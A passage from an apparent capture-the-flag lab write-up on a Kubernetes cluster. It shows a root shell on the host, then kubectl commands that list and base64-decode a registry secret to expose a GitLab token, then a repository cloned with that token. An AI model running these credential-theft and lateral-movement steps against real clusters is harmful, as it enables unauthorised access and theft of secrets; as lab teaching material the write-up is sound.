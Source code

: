 
**Output:**

We gain a shell inside the pod. Navigating to the host root directory:

We find a `proof.txt` file, which contains the first root flag.
This confirms we have successfully escalated to root privileges on the host.

### Enumerating the Kubernetes Cluster

To further explore the cluster, we enumerate the secrets in the `ci-build` namespace:

```bash
KUBECONFIG=/tmp/kubeconfig.yml kubectl get secrets -n ci-build
```
![secdojo](./images/secrets.png)

We focus on the `gitlab-registry-secret`, which likely contains Docker registry credentials:

```bash
KUBECONFIG=/tmp/kubeconfig.yml kubectl get secret gitlab-registry-secret -o jsonpath="{.data.\.dockerconfigjson}" | base64 -d
```

![secdojo](./images/secrets-content.png)

This reveals the Docker registry credentials for the `x-registry-bot` account, including a GitLab Personal Access Token.

### Testing the Registry Token and Cloning Repositories

Using the `x-registry-bot` token, let's enumerate Projects accessible to x-registry-bot

![secdojo](./images/gitlab-bootsrap-reveal.png)

There is an interesting gitlab-bootsrap Projects

**Cloning the repository:**
```bash
git clone http://x-registry-bot:<registry-bot-token>@<gitlab-ip>/root/gitlab-bootstrap.git
```

